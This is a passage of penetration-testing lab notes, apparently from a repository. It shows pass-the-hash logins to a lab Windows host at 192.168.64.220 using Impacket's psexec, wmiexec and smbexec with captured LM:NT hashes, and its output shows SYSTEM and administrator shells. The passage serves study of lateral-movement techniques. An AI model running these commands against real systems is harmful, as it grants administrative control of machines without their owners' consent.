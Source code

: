 where:
aad3b435b51404eeaad3b435b51404ee - LM
920ae267e048417fcfe00f49ecbd4b33-NT

We both need these hashes the LM and NT separated by `:`


```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.64.220.....
[*] Found writable share ADMIN$
[*] Uploading file BRJNrnqP.exe
[*] Opening SVCManager on 192.168.64.220.....
[*] Creating service tFPG on 192.168.64.220.....
[*] Starting service tFPG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.264]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```


## Using wmiexec and smbexec as an option to psexec
#wmiexec


1. Alternatively, you can use wmiexec and smbexec to gain nt authotity access

 - Using wmiexec
`impacket-wmiexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33`
```
impacket-wmiexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
punisher\administrator

```


- Using smbexec
`impacket-smbexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33`
